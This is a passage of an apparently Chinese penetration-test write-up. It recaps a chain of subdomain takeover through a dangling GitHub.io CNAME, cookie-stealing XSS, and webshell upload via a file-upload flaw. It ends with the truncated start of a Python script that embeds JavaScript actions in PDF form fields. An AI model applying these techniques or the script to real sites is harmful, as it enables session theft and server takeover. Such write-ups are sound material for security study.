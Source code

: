 ![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7E4CIgOu2zbds1k7yloD3R7ickcc2aTGhjIx6pRcJl7ibbguibwaazl5bq1aK0as41t0icHM48icGlUpA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7E4CIgOu2zbds1k7yloD3RJia7JictrZ2VhbsYrx0E4vz5dqVIByMafGm5tCH55ibsSyickxFzYzYZ1g/640?wx_fmt=png&from=appmsg "")  
也是成功写入一句话木马  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7E4CIgOu2zbds1k7yloD3RmYYtQpzSQUIJQiaZBLDicuA6SiaRsRTDzHVHUwicAVYLTtjbIcruP0A0OA/640?wx_fmt=png&from=appmsg "")  
成功连接上sql数据库  
  
写到这里，我们回头看一下渗透过程，其实都是很简单的渗透操作，但是细心一点一点挖掘就能不断打组合拳。上述流程可以整理如下：  
1. 首先，渗透过程从发现无法访问cdn1子域开始，并且解析到了一个不存在的Github.io子域名。这是我发现的一个可能存在潜在漏洞的缺陷。  
  
1. 我随后注册了一个GitHub账号，并申请了一个与cname解析的别名相同的XXX.github.io域名。这一步是为了伪装成合法的cdn服务，以便绕过一些安全措施。  
  
1. 我在目标网站的页面中通过加载cdn文件的方式注入了一个xss payload。这个xss payload可以用于获取用户的Cookie信息，从而获取后台访问权限。  
  
1. 成功获得了用户的Cookie，进而能够访问后台系统。  
  
1. 继续在网站备份文件中进行审计，找到了一个文件上传接口。这个接口可能存在漏洞，可以被渗透者利用。  
  
1. 渗透者利用文件上传接口的漏洞成功上传了恶意文件，最终拿下了shell，获得了对目标系统的控制权。  
  
1. 而且这个子域名下的系统，虽然功能简单、防御不堪，但是和其他系统部署在同一台服务器上，拿下它等于其他系统不攻自破。  
  
这个渗透过程确实是一系列简单的操作，但通过仔细挖掘和组合这些操作，我们成功地获取了对目标系统的访问权限和控制权。这个过程强调渗透者的耐心和技能，以及对目标系统的深入了解和审计能力。  
## 0x05 有意思的PDF（非正文）  
  
在渗透测试过程中，有一个接口可以上传PDF，我搜到了关于PDF XSS的资料，但是经过我的复现验证，发现只能进行弹窗不可以执行其他操作，危害有限。我也附上我当时自己写的PDF写入XSS payload的脚本，供各位师傅娱乐、探讨。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7E4CIgOu2zbds1k7yloD3RH8bJu1WTyk65RaIZ46jwNaUWa2cHxBWyibzcJcqn1N4SgiaSfyWicaNQg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7E4CIgOu2zbds1k7yloD3RAnjQ7sv5SUQNfDbicicpu4iaFFjkFN5WkZKMlwZsHfUl0ic6mqEYFJv99g/640?wx_fmt=png&from=appmsg "")  
creater.py  
```
# ©2023 衡水中学数据安全社团 LiuTselin
import argparse
from pdfrw import PdfWriter
from pdfrw.objects import PdfDict, PdfArray, PdfName, PdfString
from PyPDF2 import PdfReader, PdfWriter as PyPdfWriter

# 全局常量
FONT_NAME = "Helvetica"
MEDIA_BOX = [0, 0, 612, 792]
FONT_SIZE = 24

def create_js_action(js_code):
    """创建JavaScript动作对象"""
    return PdfDict(S=PdfName.JavaScript, JS=js_code)

def create_form_field(name, x, y, width, height, r, g, b, value=""):
    """创建表单字段对象"""
    rect = PdfArray([x, y, x + width, y + height])
    ap_stream = f"{r} {g} {b} rg\n0.0 0.0 {width} {height} re f\n"

    annot = PdfDict(
        Type=PdfName.Annot,
        Subtype=PdfName.Widget,
        FT=PdfName.Tx,
        Ff=2,
        Rect=rect,
        MaxLen=160,
        T=PdfString.encode(name),
        V=PdfString.encode(value),
        AP=PdfDict(N=PdfDict(Type=PdfName.XObject, Subtype=PdfName.Form, FormType=1, BBox=rect, Matrix=[1.0, 0.0, 0.0, 1.0, 0.0, 0.0], stream=ap_stream)),
```